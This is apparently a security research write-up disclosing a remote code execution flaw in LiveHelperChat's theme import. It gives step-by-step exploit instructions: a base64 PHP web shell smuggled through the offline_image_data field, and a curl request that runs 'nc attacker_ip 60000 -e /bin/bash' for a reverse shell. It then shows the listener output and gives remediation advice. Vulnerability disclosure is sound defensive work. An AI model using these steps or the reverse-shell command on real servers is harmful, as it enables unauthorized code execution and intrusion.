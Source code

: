 ```yaml
---
layout: post
title: "LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function"
categories: Research
---
```

## LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function

# Summary:
Upon logging in, an import functionality has been identified that accepted input in a JSON format. The JSON format was analyzed and a base64 encoded PNG image input has been identified. By manipulating the image input parameters, it was possible to upload a malicious php file in order to execute arbitrary code.

# Plugin informations:
Name: Live Helper Chat
Homepage: https://livehelperchat.com/

# Proof of Concept (PoC):
Upon first inspection, there are no themes currently uploaded on the web application. The first step would be to try and upload a PHP file directly in one of the file inputs, however this does not seem to work in our case. 

In order to exploit this vulnerability, we must first create basic theme. Let’s move to the vulnerable directory.

> **/lhc_web/index.php/site_admin/abstract/new/WidgetTheme**{: style="color: red"}

We fill up the required inputs and parameters with dummy data. Then, we go back and download the theme from the Widget directory located here:

> **/lhc_web/index.php/site_admin/abstract/edit/WidgetTheme/1**{: style="color: red"}

When the file is downloaded, we open it and modify the **offline_image_data parameter** as well as the **offline_image_data_ext** parameter
&nbsp;

**Payload:** base64(Image Header + PHP Web Shell)
&nbsp;

**Offline_image_data** is replaced with the payload.
**Offline_image_data_ext** is simply set to “php”.
&nbsp;

The exploit should look something like this:
&nbsp;

```json
{
    "name": "Test",
    "name_company": "Peter Winter",
    "..[SNIP]..": "..[SNIP]..",
    "offline_image_data": "base64_payload",
    "offline_image_data_ext": "php"
}
```
&nbsp;
After the theme with the exploit is prepared it is uploaded on the web server in the following page:
16px
> **/lhc_web/index.php/site_admin/theme/import**{: style="color: red"}
&nbsp;

![import theme]({{ site.baseurl }}/assets/images/image1.png){:.container}
&nbsp;

After the upload is successful, the user must edit the imported theme at the Widget themes section. When the page is loaded, so is the php web shell. In our case, we have identified the path where the shell has been uploaded by viewing the page source and viewing the file path of the **offline_image_data** parameter:

> **/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php**{: style="color: red"}
&nbsp;

Our webshell can execute code on the server by using “cmd” as a parameter. The user can then proceed to set up a reverse shell to their machine by using nc. We then proceed to establishing a reverse shell connection by issuing the following command through the GET method. Firstly, we start a listener on our local machine.
&nbsp;

{% highlight bash %}
> $ nc -lnvp 60000
{% endhighlight %}
&nbsp;

Then, we proceed to send a GET request to the webserver by leveraging our PHP web shell.
&nbsp;

{% highlight bash %}
> $ curl -X GET \ 
http://victim_ip/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php?cmd=nc+attacker_ip+60000+-e+/bin/bash
{% endhighlight %}
&nbsp;

If the connection is successful, we should get the following message on our listener. Upon issuing the id command, we find out that we are logged in as the www-data user.
&nbsp;

{% highlight bash %}
> $  nc -lnvp 60000
listening on [any] 60000 ...
connect to [attacker_ip] from (UNKNOWN) [vitim_ip] 40248
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}
&nbsp;

# Some of the recommendations for remediating this vulnerability are listed below:

- Restrict file types accepted for upload (check the file extension and only allow certain files to be uploaded.)
- Use a whitelist approach instead of a blacklist. 
- Check for double extensions such as .php.png. 
- Check for files without a filename like .htaccess (on ASP.NET, check for configuration files like web.config). 
- Change the permissions on the upload folder so the files within it are not executable. If possible, rename the files that are uploaded.
- Check OWASP page for unrestricted upload for the rest of best-practice solutions.


# Vulnerability found by:
Me and [0xcela](https://twitter.com/0xcela)
